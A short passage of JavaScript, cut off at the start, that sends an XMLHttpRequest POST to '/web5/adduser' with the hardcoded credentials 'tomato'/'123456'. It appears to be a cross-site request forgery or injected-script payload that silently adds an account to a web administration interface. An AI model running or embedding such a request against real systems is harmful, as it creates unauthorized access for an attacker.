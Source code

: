 ```javascript



} catch(e) {}



}



}



xmlhttp=request;





var url= "/web5/adduser";  



var params ='name=tomato&pass=123456&submit=ok';



xmlhttp.open("POST", url, true);



xmlhttp.setRequestHeader("Content-type", "application/x-www-form-urlencoded");



xmlhttp.setRequestHeader("Content-length", params.length);



xmlhttp.setRequestHeader("Connection", "Keep-Alive");



 



xmlhttp.send(params)



```
